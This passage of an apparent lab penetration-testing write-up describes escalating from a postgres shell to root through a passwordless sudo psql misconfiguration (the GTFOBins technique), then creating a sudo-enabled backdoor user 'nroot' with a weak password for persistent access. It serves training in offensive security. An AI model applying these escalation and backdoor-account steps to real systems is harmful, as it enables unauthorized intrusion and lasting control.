<figure><figcaption><p>Launching the shell from PostgreSQL</p></figcaption></figure>

This is caught and I have a shell as `postgres`:

<figure><figcaption><p>Shell as postgres</p></figcaption></figure>

### Lateral Movement

Now that I am running as postgres I reassess the situation. I start with `sudo -l` and find I can run `psql` (PostgreSQL binary) with `sudo` and no password:

<figure><figcaption><p>sudo binaries for postgres user</p></figcaption></figure>

There is a [GTFOBins technique](https://gtfobins.github.io/gtfobins/psql/#sudo) for sudo psql. Basically the user runs `psql` as `root` and then launches a help menu which can then be used to launch another binary:

<figure><figcaption><p>GTFOBins technique for psql</p></figcaption></figure>

The first time I try this I get an error that reads "`role "root" does not exist`." I do some research and find [this SO post](https://stackoverflow.com/questions/25049504/postgres-role-root-does-not-exist-when-trying-to-pgpull-database-from-herok) which is about the same error but in a different context. The answer made me realize the error just means there is not PostgreSQL user "`root`". Instead I try logging in again with the same `psql` command from [above](vm16.md#postgresql). This works and then I am able to use the  for `sudo psql`:

```bash
sudo psql -d 'webapp' -h 'localhost' -p 5432 -U 'postgres' -W
```

<figure><figcaption><p>Launching a root shell via psql</p></figcaption></figure>

`root` access achieved.

## Post-Exploit

### Adding A New User

Because I have a root shell I can create new users. I decide to create a `sudo`-enabled user (`nroot`) with a known password (`password`) which I can easily use if I need to come back to elevated access on this machine. To do this I simply use the `adduser` command:

```bash
adduser nroot
```

From here I just add `nroot` to the sudo group as seen [here](https://www.ionos.com/help/server-cloud-infrastructure/server-administration/creating-a-sudo-enabled-user/?srsltid=AfmBOooxG-lCaKLyj99E0a6meMvql6Eb6t\_V2SMY324ifRCDkakd2BGe#c201253):

```bash
usermod -aG sudo nroot
```

<figure><figcaption><p>Creating a new user from my root shell</p></figcaption></figure>

Once this is completed I can actually tear down everything except my original `www-data` shell. From that session I can use `su` to run as `nroot` with elevated access:

<figure><figcaption><p>Using the newly-created nroot user</p></figcaption></figure>

I poke around the machine a bit more but do not find anything particularly helpful.  I move to other machines for now.
